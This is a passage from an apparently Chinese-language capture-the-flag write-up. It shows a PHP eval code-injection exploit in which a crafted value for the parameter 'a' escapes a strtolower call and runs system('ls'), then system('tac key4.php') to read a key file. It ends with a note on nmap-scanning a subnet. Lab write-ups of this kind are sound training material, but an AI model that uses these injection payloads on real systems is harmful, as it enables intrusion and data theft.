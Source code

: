 `eval(\"\\$o=strtolower(\\\"$a\\\");\");`,这里假设$a赋值为`\");system('ls');(\"`
那这段代码就变成了
```
eval(\"$o=strtolower(\"\");system('ls');(\"\");\");
```
`vul.php?a=\");system('tac key4.php');(\"`
![upload successful](/images/pasted-904.png)
拿到key

# 综合题1

用nmap扫描网段10.1.10.81-86